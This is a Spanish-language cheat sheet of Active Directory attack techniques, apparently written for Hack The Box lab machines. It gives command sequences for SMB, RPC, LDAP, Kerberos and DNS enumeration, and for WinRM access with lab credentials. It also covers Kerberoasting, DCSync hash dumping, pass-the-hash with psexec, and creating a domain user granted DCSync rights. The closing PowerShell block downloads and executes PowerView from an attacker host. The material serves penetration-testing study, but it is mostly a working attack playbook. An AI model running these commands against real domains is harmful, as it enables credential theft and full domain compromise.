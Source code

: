 # Técnicas de directorio activo

## Puertos importantes

- 53: DNS
- 88: Kerberos
- 445: SMB
- 135: Windows RPC
- 389: LDAP
- 5985: Administración remota de windows

## Enumeración

Tecnicas de enumeración de directorio activo

### SMB

Si tiene el puerto 445 lo primero es enumerar con **crackmapexec**, **smbmap**, **smbclient**,....

```bash
# Se averigua nombre de maquina y dominio.
crackmapexec smb 10.10.10.175

# Listar recursos compartidos
crackmapexec smb 10.10.10.175 --shares

# smbmap con session nula
smbmap -H 10.10.10.175 -u 'null'

# smbclient con session nula
smbclient -L 10.10.10.175 -N

```

Poner el dominio en /etc/host.

Si se tiene una credencial válida podemos comprobar el usuario.

```bash
# Si pone pwned podríamos acceder con PSEXEC
crackmapexec smb 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'

```

### RPC

Si tiene el puerto 135 podemos enumerar con **rpcclient**.

```bash
# rpcclient con sesion nula
rpcclient -U "" 10.10.10.174 -N

# Enumerar usuarios del dominio:
rcpclient $> enumdomusers

```

### LDAP

Si tiene el puerto 389 podemos enumerar con **ldapsearch**.

```bash
# ldapseacrh -x es simple autentication. traemos los namingcontext
ldapsearch -x -h  10.10.10.174 -N -s base namingcontexts

# ldapseacrh -x es simple autentication. Enumeramos el contexto
ldapsearch -x -h  10.10.10.174 -N -b 'DC=EGOTISTICAL-BANK, DC=LOCAL'
```

### KERBEROS

Si se consiguen usuarios y está el servicio de Kerberos abierto, puerto 88, podemos enumerar con kerbrute y GetNPUsers.

```bash
# kerbrute. Enumera usuarios válidos a partir de un listado
./kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.174 users.txt

# Lo mismo con Impacket
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile users.txt
```

### DNS

Si está abierto el puerto 53 podemos intentar un ataque de transferencia de dominio con dig.

```bash
# dig. Enumera los nameservers
dig @10.10.10.174 EGOTISTICAL-BANK.LOCAL ns

# dig. Enumera los servidores de correo
dig @10.10.10.174 EGOTISTICAL-BANK.LOCAL mx

# dig. Domain Zone Transfer Attack
dig @10.10.10.174 EGOTISTICAL-BANK.LOCAL axfr


```

## Administración remota, WINRM

Si está abierto el servicio de administración remota, puerto 5985, podemos atacar el servicio winrm con crackmapexec.

```bash
# Si pone pwned podríamos acceder con evil-winrm
crackmapexec winrm 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'

# Acceso a consola por 
evil-winrm -i 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'
```
## Explotación

```bash
# Acceso a consola evil-winrm. Credenciales válidas y servicio de administración remota  
evil-winrm -i 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'

# Si el LDAP es por SSL
evil-winrm -i 10.10.10.175 -c public.pem -k provate.pem -s
```

```bash
# Acceso a consola rpcclient. Credenciales válidas y SMB. Despues  enumdomusers  
evil-winrm -i 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'
# enumer usuarios del dominio
rpcclient $> enumdomusers
# enumer grupos 
rpcclient $> enumdomgroups
# enumer usuarios de un grupo
rpcclient $> querygroupmem 0x200
# enumer info de un usuario
rpcclient $> queryuser 0x1f4
# Descripciones de los usuarios
rpcclient $> querydispinfo
```
## Escalada de privilegios

### Kerberoasting attack

Con credenciales válidas.
 ```bash

 impacket-GetUserSPNs htb.local/alfresco -dc-ip 10.10.10.141
 
 ```


### WinPEAS

Subir WinPEAS.exe a la máquina victima y ejecutarlo. Podemos obtener credenciales de autologon.

### BloodHound

Instalar en la maquina atacante neo4j y bloodhound. Previmente instalar Java 11.

```bash
# Instalación  
sudo apt install neo4j bloodhound

# Setear versión de java por defecto a la 11
sudo update-alternatives --config java

# Lanzamos neo4j. Configuramos en http://localhost:7474
sudo neo4j console &> /dev/null & disown

# Abrimos bloodhound 
sudo bloodhound &> /dev/null & disown
```
Buscamos un recolector y lo subimos a la maquina victima.

En el caso de Poweshell SharpHound.ps

### Ldapdomaindump

Para dumpear el LDAP.

```bash
# Dumpea los HASHSES
ldapdomaindump -u 'htb.local/svc-alfresco' -p 's3vice' 10.10.10.161

```


### Ataque DCSync

```bash
# Dumpa los HASHSES
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr:10.10.10.175

```

### Pass de HASH

Si hemos tenido suerte y tenemos el hash NTLM podemos hacer Pass the HASH con psexec.

```bash
# Pass the hash,
impacket-psexec EGOTISTICAL-BANK.LOCAL/Administrator:10.10.10.175 cmd.exe -hashes :elhahsahnt

# Tambien con crackmapexec. Dumpeamos todos los hashes
crackmapexec -u 'Administrator' -H 'elhashntlm' --ntds vss
# Conexión como administrador
crackmapexec -u 'Administrator' -H 'elhashntlm' 

```

## Grupos interesantes:

* **Account Operators**: Puede crear y modificar usuarios
* **Exchange Windows Permissions** Se puede otorgar permisos para ejecutar DCSync con la funcion WriteDacl

## Comandos

```poweshell
# Crear usuario
net user jamunof Password123 /add /domain

# Ver info usuario
net user jamunoz

# Ver grupos
net group

#Añadir usuario a grupo
net group "Exchange Windows Permissions" jamunoz /add

#Dar privilegios para DCSync
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\jamunoz'.$SecPassword)
# Descargar PowerView.ps1, previemente descargado de internet en maquina atacante
IEX(New-Object Net.WebClient).downloadString('http://10.10.104.29/PowerView.ps1')
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity jamunoz -Rights DCSync

```


